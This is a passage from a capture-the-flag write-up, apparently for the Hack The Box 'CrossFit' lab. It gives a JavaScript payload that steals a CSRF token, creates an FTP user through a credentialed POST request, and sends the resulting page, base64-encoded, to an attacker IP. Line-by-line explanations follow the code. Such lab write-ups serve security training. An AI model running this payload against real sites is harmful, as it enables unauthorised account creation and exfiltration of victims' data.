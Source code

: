 1.  We now need to create a new user.
2.  Using javascript one can create a POST request also.

```javascript
/*GETTING THE TOKEN*/
var target2 = 'http://ftp.crossfit.htb/accounts/create';
var req4 = new XMLHttpRequest();
req4.open('GET',target2,false); /*here `false` is necessary so that only after this req is completed the program continues*/
req4.withCredentials = true;  /*to keep the session alive*/
req4.send();
/*PARSING THE REQUEST*/
response2 = req4.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response2,'text/html');
token = doc.getElementsByName("_token")[0].value; /*retrieving the token value*/

/*POST REQUEST TO CREATE A USER*/
var target = 'http://ftp.crossfit.htb/accounts';
var req = new XMLHttpRequest();
var params = 'username=hello&pass=bhosa&_token='+token;
req.open('POST', target, false);
req.withCredentials = true;
req.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req.send(params);

/*VIEWING THE MAIN PAGE TO SEE IF A USER IS CREATED*/
var target1 = 'http://ftp.crossfit.htb/';
var req3 = new XMLHttpRequest();
req3.open('GET',target1,false);
req3.send();
var response = req3.responseText;

/*attacker request*/
var attacker = 'http://10.10.14.47/result='+btoa(response);
var req2 = new XMLHttpRequest();
req2.open('GET',attacker,true);
req2.send();
```
- This javascript will first search fot token and then use that token to send a post request to create a new user and then we again ask for the main page and then sent back the index.html file to find a new user created.
1. Here `req.withCredentials` is used to keep the seesion alive.
2. `params` is a variable to store the POST data and then send via `send()` command.
3. Incase of `open()` function we use `false` for all requests except the final one,because false means that the code can move to next line only after we get a response for the request,this makes sure that all requests happen competely.

***USING THIS WE CREATE A NEW USER AND THIS USER CAN BE USED TO LOGIN TO THE FTP SERVICE HOSTED ON PORT 21: ***

![[Pasted image 20210331053431.png]]
